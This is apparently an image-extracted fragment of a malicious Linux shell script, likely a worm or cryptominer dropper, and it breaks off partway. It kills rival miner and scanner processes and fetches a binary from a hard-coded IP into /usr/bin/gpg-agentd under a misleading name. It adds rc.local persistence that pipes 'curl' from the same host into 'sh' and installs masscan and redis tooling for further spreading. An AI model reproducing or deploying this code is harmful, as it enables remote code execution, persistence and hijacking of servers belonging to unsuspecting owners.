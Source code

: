 > 
> echo 1 > .watch
> 
> sleep 1
> 
> ps x | awk '!/awk/ && /redisscan|ebscan|redis-cli/ {print $1}' | xargs kill -9 2>/dev/null
> 
> ps x | awk '!/awk/ && /barad\_agent|masscan|\\.sr0|clay|udevs|\\.sshd|xig/ {print $1}' | xargs kill -9 2>/dev/null
> 
> sleep 1
> 
> if ! \[-x /usr/bin/gpg-agentd\]; then
> 
> curl -s -o /usr/bin/gpg-agentd 159.89.190.243/dump.db
> 
> echo '/usr/bin/gpg-agentd' > /etc/rc.local
> 
> echo 'curl -fsSL 159.89.190.243/ash.php|sh' >> /etc/rc.local
> 
> echo 'exit 0' >> /etc/rc.local
> 
> fi
> 
> sleep 1
> 
> chmod +x /usr/bin/gpg-agentd && /usr/bin/gpg-agentd || rm -rf /usr/bin/gpg-agentd
> 
> sleep 1
> 
> if ! \[-x "$(command -v masscan)" \]; then
> 
> rm -rf /var/lib/apt/lists/\*
> 
> rm -rf x1.tar.gz
> 
> if \[-x "$(command -v apt-get)" \]; then
> 
> export DEBIAN\_FRONTEND=noninteractive
> 
> apt-get update -y
> 
> apt-get install -y debconf-doc
> 
> apt-get install -y build-essential
> 
> apt-get install -y libpcap0.8-dev libpcap0.8
> 
> apt-get install -y libpcap\*
> 
> apt-get install -y make gcc git
> 
> apt-get install -y redis-server
> 
> apt-get install -y redis-tools
> 
> apt-get install -y redis
> 
> apt-get install -y iptables
> 
> apt-get install -y wget curl
> 
> fi
> 